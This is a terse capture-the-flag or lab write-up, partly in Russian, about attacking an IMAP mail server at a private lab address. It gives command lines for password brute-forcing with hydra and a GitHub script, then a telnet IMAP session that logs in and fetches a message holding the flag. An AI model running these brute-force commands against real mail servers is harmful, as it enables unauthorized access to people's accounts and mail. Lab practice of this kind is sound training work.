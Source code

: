 sed -i 's/$/@company.local/' input.txt
python3 main.py ([GitHub - Gill-Singh-A/IMAP-Brute-Force: A Python Program that uses imaplib module to brute force IMAP (Internet Messaging Access Protocol)](https://github.com/Gill-Singh-A/IMAP-Brute-Force)) -s 10.10.0.48 -u user.txt -P pass.txt -S False -p 143 


hydra -L name.txt -P pass.txt imap://10.10.0.48 -u -V

telnet 10.10.0.48 143
```
<RandomStringID> <command> [<arg1><arg2>…]
```
1 LOGIN user pass
2 EXAMINE INBOX
3 FETCH 1 BODY[]
получаем флаг